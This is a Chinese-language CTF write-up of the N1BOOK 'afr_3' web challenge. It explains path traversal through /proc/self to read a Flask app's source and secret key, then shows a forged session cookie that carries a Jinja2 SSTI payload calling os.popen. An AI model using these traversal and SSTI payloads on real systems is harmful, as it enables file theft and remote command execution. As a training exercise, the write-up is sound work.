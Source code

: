 ```yaml
---
title: 从0到1：CTFer成长之路 N1BOOK of web afr_3 writeup
date: 2022-04-11 14:34:00
updated: 2022-04-11 22:35:00
tags: [ctf,security,<<从0到1：CTFer成长之路>]
description: <<从0到1：CTFer成长之路>>配套题目 web相关题目的做题记录
---
```


# N1BOOK of web afr_3 writeup(任意文件读取+SSTI)

Nu1L Team写的\<\<[从0到1：CTFer成长之路](https://book.nu1l.com/tasks/)\>\>的题目在BUUOJ上都有了复现环境，简单看了看发现WEB的题目wp和环境都比较齐全，决定做一下并且写博客记录一下。

>参考:https://blog.csdn.net/AAAAAAAAAAAA66/article/details/121490787

首页有输入框可以提交name

![](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411143954822.png)

提交后给出一个article让我们看，先看看里面都是啥

![](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411143954822.png)

url中可以传参数，随便传一个看看

## 任意文件读取漏洞

![image-20220411144131085](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411144131085.png)

发现可以任意文件读取，但是尝试读flag是不能直接读的，这里需要对linux的文件目录有一定的了解。

## 利用任意文件读取漏洞结合proc读取源码

/proc 文件系统是一种内核和内核模块用来向进程 (process) 发送信息的机制 (所以叫做 /proc)。这个伪文件系统让你可以和内核内部数据结构进行交互，获取 有关进程的有用信息，在运行中 (on the fly) 改变设置 (通过改变内核参数)。 与其他文件系统不同，/proc 存在于内存之中而不是硬盘上。

/proc 文件系统可以被用于收集有用的关于系统和运行中的内核的信息。

下面是一些重要 的文件：

/proc/cpuinfo - CPU 的信息 (型号, 家族, 缓存大小等) 
/proc/meminfo - 物理内存、交换空间等的信息 
/proc/mounts - 已加载的文件系统的列表 
/proc/devices - 可用设备的列表 
/proc/filesystems - 被支持的文件系统 
/proc/modules - 已加载的模块 
/proc/version - 内核版本 
/proc/cmdline - 系统启动时输入的内核命令行参数

我们需要用到`/proc/N/cmdline` 进程启动命令，`/proc/N/cwd` 链接到进程当前工作目录，利用这两个目录，我们读取`../../../../proc/self/cmdline`，来获取当前进程的启动命令，发现是python server.py，然后我们再利用`../../../../proc/self/cwd/server.py`链接到进程当前工作目录的server.py文件，那么这时候我们就可以直接获取到源码了，获取到的格式比较乱，可以用IDE格式化一下代码方便查看，我用的是vscode格式化代码的插件，但是并不是非常有效，还是需要手动调整一下，下面是调整后的。（后来发现f12就可以看到正常格式的源码，这下猪鼻了，但是编码倒是出了点问题也不知道为啥）

```python
<h1>Article Content:</h1> <br>#!/usr/bin/python
import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask_session import Session

app = Flask(__name__)
execfile(&#39;flag.py&#39;)
execfile(&#39;key.py&#39;)

FLAG = flag
app.secret_key = key
@app.route(&#34;/n1page&#34;, methods=[&#34;GET&#34;, &#34;POST&#34;])
def n1page():
    if request.method != &#34;POST&#34;:
        return redirect(url_for(&#34;index&#34;))
    n1code = request.form.get(&#34;n1code&#34;) or None
    if n1code is not None:
        n1code = n1code.replace(&#34;.&#34;, &#34;&#34;).replace(&#34;_&#34;, &#34;&#34;).replace(&#34;{&#34;,&#34;&#34;).replace(&#34;}&#34;,&#34;&#34;)
    if &#34;n1code&#34; not in session or session[&#39;n1code&#39;] is None:
        session[&#39;n1code&#39;] = n1code
    template = None
    if session[&#39;n1code&#39;] is not None:
        template = &#39;&#39;&#39;&lt;h1&gt;N1 Page&lt;/h1&gt; &lt;div class=&#34;row&gt; &lt;div class=&#34;col-md-6 col-md-offset-3 center&#34;&gt; Hello : %s, why you don&#39;t look at our &lt;a href=&#39;/article?name=article&#39;&gt;article&lt;/a&gt;? &lt;/div&gt; &lt;/div&gt; &#39;&#39;&#39; % session[&#39;n1code&#39;]
        session[&#39;n1code&#39;] = None
    return render_template_string(template)

@app.route(&#34;/&#34;, methods=[&#34;GET&#34;])
def index():
    return render_template(&#34;main.html&#34;)
@app.route(&#39;/article&#39;, methods=[&#39;GET&#39;])
def article():
    error = 0
    if &#39;name&#39; in request.args:
        page = request.args.get(&#39;name&#39;)
    else:
        page = &#39;article&#39;
    if page.find(&#39;flag&#39;)&gt;=0:
        page = &#39;notallowed.txt&#39;
    try:
        template = open(&#39;/home/nu11111111l/articles/{}&#39;.format(page)).read()
    except Exception as e:
        template = e

    return render_template(&#39;article.html&#39;, template=template)

if __name__ == &#34;__main__&#34;:
    app.run(host=&#39;0.0.0.0&#39;, debug=False)
```



## SSTI模板注入漏洞

我们需要注意到的关键是，server.py运行的这个路径下面还有两个文件，key.py和flag.py，我们并不能直接利用任意文件读取的漏洞读取flag文件是因为flag关键词在article()函数中做了过滤，然后这边结合考虑一下之前输入的name有什么用，因为毕竟是一个ctf题目，总共就那么点信息显然是有用处的，看一下这部分的代码

```python

if "n1code" not in session or session['n1code'] is None: 
    session['n1code'] = n1code
template = None
if session['n1code'] is not None:
 template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' %
session['n1code']
session['n1code'] = None

```

name那个输入框里面填入的值就是n1code的值，代码首先会对post传来n1code过滤一些SSTI关键的符号（下一段会说这样有什么用），然后再看你session里面有没有n1code这个字段，如果没有就会给session加个n1code的字段并且值为POST请求传来的n1code的值被过滤字符后的值，如果有就把session带入模板中执行，那么也就是说根据我们正常传入n1code的值然后他就会过滤SSTI的关键字符后，把n1code的值带进模板里面去执行，这里就会导致SSTI模板注入漏洞。但是SSTI的关键符号被过滤了，大括号都被过滤了，就没有办法让模板执行代码了对吧，所以说直接传n1code进行模板注入的方法并不奏效。

## 伪造session完成SSTI利用

因此我们需要使用伪造session的方式来完成SSTI注入漏洞的利用，因为你会发现你直接传入n1code的值会被过滤，但是你session如果是伪造的，我们就可以让n1code是我们想要执行的恶意代码并且不受到过滤条件的限制了，这非常关键，而且我们恰好有任意文件读取漏洞可以读取key.py这个文件，先来讲讲session是什么。

session是一种对用户身份的认证，并不是你叫ek1ng我就会在session里写ek1ng，session是存储在浏览器中用户可以更改的，那不然别人改个session也叫ek1ng那不是可以被别人轻易冒充，所以说session['n1code']经过key的加密，也就是说在服务端认为n1code是ek1ng，但是在客户端这个n1code的值是‘ek1ng’经过key加密之后的值，因此需要借助工具和通过任意文件读取漏洞来伪造一个session，从而达成对SSTI漏洞的利用。

首先肯定需要看看加密session的key.py文件，

payload:`article?name=../../../proc/self/cwd/key.py`

得到key.py的内容`key = 'Drmhze6EPcv0fN_81Bj-nA'`

借助工具[flask-session-cookie-manager](https://github.com/noraj/flask-session-cookie-manager)来构造session，在命令行执行`.\flask_session_cookie_manager3.py encode -s Drmhze6EPcv0fN_81Bj-nA -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"`

得到伪造后的session![image-20220411223700006](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411223700006.png)

修改cookie中的session['n1code']的值，就可以看到flag啦

![image-20220411223828860](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220411223828860.png)

然后这题真的自己做的话肯定还是有不少坑的，简单了解一下flask的模板注入就知道，flask模板注入首先要先找可以导入os模块的基类，因为我们需要执行popen来读flag.py文件，但是能导入os模块的基类到底是哪个呢，这和python版本本身就是有关系的，这里可以去看一下我之前写的HGAME final中那道SSTI模板注入的题目中是如何找基类的，那个题是写了个脚本，所以说这题我觉得正儿八经做法就是要写个脚本跑一下看看结果的，但是由于我是没什么思路学习的别人wp，这边就当下懒狗啦，对我来说写个脚本并不困难，主要是学习一下思路，希望别的参考我博客复现的师傅们别偷懒哈哈哈。

